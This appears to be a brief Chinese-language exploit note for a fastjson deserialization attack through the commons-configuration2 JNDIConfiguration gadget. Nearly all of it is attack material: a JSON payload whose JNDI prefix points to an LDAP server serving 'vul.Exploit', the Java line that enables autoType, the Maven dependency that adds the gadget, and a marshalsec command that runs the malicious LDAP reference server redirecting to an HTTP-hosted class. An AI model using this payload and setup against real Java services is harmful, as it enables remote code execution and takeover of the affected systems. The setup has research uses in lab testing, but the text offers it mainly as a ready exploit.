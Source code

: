 ## gatget
```
  {"@type":"org.apache.commons.configuration2.JNDIConfiguration",
   "prefix":"ldap://127.0.0.1:1389/vul.Exploit"}
```

## 开启autotype
```
  ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```
## pom.xml额外引入gatget类
```
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.0</version>
    </dependency>
```

##reference
- [工具marshalsec](https://github.com/k6ymaker/marshalsec)
```
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/\#vul.Exploit
```
- [研究](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483807&idx=1&sn=4e9a229fb32721b353c896e1a9fab1eb&chksm=fd07cb00ca704216e9f9f99f6f615014581eb3f9a8423e8213c4840e498241cf169ffe187343&mpshare=1&scene=23&srcid=&sharer_sharetime=1569291237460&sharer_shareid=b9dede03cd3f2e7d4dbf72830bcff7c6#rd)